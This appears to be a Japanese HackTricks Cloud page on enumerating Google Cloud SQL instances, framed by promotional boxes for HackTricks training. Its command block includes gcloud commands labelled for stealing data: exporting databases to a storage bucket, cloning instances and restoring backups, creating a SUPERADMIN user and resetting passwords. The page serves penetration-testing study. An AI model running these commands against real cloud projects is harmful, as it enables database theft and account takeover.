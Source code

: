 # GCP - SQL Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## [Cloud SQL](https://cloud.google.com/sdk/gcloud/reference/sql/)

Cloud SQLインスタンスは、**完全に管理された、リレーショナルなMySQL、PostgreSQL**、および**SQL Serverデータベース**です。Googleはレプリケーション、パッチ管理、データベース管理を処理して、可用性とパフォーマンスを確保します。[詳細を学ぶ](https://cloud.google.com/sql/docs/)。

これらのインスタンスがパブリックIPで使用されていることがわかった場合、誤設定されていてインターネットから**アクセス可能**である可能性があります。
```bash
# Cloud SQL
gcloud sql instances list
gcloud sql databases list -i <INSTANCE>
gcloud sql databases describe -i <INSTANCE> <DB>
gcloud sql backups list -i <INSTANCE>
gcloud sql backups describe -i <INSTANCE> <DB>

# Steal data
## Export
gcloud sql export sql <DATABASE_INSTANCE> gs://<CLOUD_STORAGE_BUCKET>/cloudsql/export.sql.gz --database <DATABASE_NAME>
## Clone
gcloud instances clone <SOURCE> <DESTINATION>
## Backup
gcloud sql backups restore BACKUP_ID --restore-instance <RESTORE_INSTANCE>
gcloud sql instances clone restore-backup <SOURCE> <DESTINATION>
## Users abuse
gcloud sql users list -i <INSTANCE>
gcloud sql users create SUPERADMIN -i <INSTANCE>
gcloud sql users set-password <USERNAME> -i <INSTANCE> --password <PWD>
```
### DBデータの流出

例として、[Googleのドキュメント](https://cloud.google.com/sql/docs/mysql/import-export/exporting)に従ってCloud SQLデータベースを流出させることができます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
